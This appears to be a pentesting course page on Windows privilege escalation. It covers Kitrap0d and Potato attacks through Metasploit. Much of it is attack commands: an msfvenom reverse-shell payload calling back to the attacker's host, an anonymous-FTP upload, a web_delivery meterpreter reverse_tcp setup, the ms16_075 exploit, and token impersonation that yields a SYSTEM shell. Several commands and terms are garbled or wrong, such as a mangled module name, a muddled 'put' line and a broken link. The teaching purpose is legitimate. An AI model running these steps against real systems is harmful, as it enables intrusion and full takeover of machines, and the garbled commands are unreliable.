 ```yaml
---
title: "Understanding Kernel Exploits"
subtitle: "How Attackers Use Vulnerabilities to Gain System Control and Perform Privilege Escalation Attack"
tags: ["pentesting", "cybersecurity", "red-team"]
authors: ["blindma1den", "lorenagubaira"]

---
```


## Kernel Exploitations

A Kernel is the core component of the operating system and acts as a bridge between hardware components and software applications.

When an operating system is loaded into memory, the kernel is loaded first and remains in memory until the operating system is shut down again.

The kernel is responsible for low-level tasks such as disk management, task management, and memory management.

Initially, these exploits are facilitated once we manage to establish ourselves on our target system, so after gaining access via Metasploit (preferably), run this /post/multi/recon/local_exploit_suggestery to check if Kitrap0d exists.

### Kitrap0d Exploit

Initially we will create a reverse shell and load it on the target system `msfvenom -p windows/shell_reverse_tcp LHOST=yourIP LPORT=555 -f aspx > myfile.aspx`

- `-p` = Payload (here a simple reverse shell)

- `LHOST` = Current IP address of the system

- `LPORT` = Port of your choice

- `-f` = File type (which type of file the system will work with)

- `>` = Save the output file with a filename

Somehow upload this file to the target system. Here we use ftp as an example to upload

```bash
ftp 10.0.0.1
```

The password is `anonymous`.
Then upload the file with the following command:

```bash
put manual.aspx nc -nvlp 555
```

Go to the IP address/site and invoke the payload.

### Potato Attacks

Suppose we have a shell on the Windows machine and after checking whoami /priv we discover that we have impersonation token privileges.

![NoSQL23](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL23.png?raw=true)

This helps us to get NT/Authority through a pope attack, and then the following can be done:

There will be two instances at this point.

1. The first instance is that we must have a foot in the system and check if the system has any identity privilege (figure above).

2. This is the Metasploit shell that we are about to trace.

### In Metasploit

1. Use the Metasploit module for web delivery:

```bash
use exploit/multi/script/web_delivery
```

2. Set the target as PowerShell (PSH):

```bash
set TARGET 0
```

3. Sets the payload as `windows/meterpreter/reverse_tcp`:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

4. Set LHOST and SRVHOST as your IP address.

5. Enter run, we will get a payload, copy and paste it into the first instance where the initial support shell is present.

![NoSQL24](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL24.png?raw=true)

6. Paste the above command in the first instance.

7. After pasting, enter **session1** and type `getprivs`.

8. Check if it is x64 or x86 architecture by typing `getuid`:

```bash
run post/multi/recon/local_exploit_suggester
```

9. Check all available exploits that can be exploited:

```bash
run windows/local/ms16_075_reflection
```

10. Set the session to ``1`:

```bash
set SESSION 1
```

11. Set LHOST to the Kali IP.

12. Set LPORT to any port on which session 1 is not listening.

13. Set the payload:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

14. Run the exploit:

```bash
exploit
```

15. Load the ``incognito` module in Meterpreter:

```bash
load incognito
```

![NoSQL25](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL25.png?raw=true)

16. Type: `list_tokens -u` and observe **NT AUTHORITY SYSTEM**.

17. Issue the **NT AUTHORITY SYSTEM** token:

```bash
impersonate_token “NT AUTHORITYSYSTEM”.
```

18. Type `shell` to get a shell with authority privileges.

In the case of Labs and boxes, there may be some data flow situation that is used to hide the information in a file. In those cases, we can use this blog: [https://blog.malwarebytes.com/101/2015/07/introduction-to -data-flows-alternatives/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

Simple phrases could be **dir /R** (for the recursive search of files in the directory) **plus <name of the file to be searched**.

### References:

> SecWiki/exploits-del-kernel-of-windows: exploits-del-kernel-of-windows Windows平台提权漏洞集合 (github.com)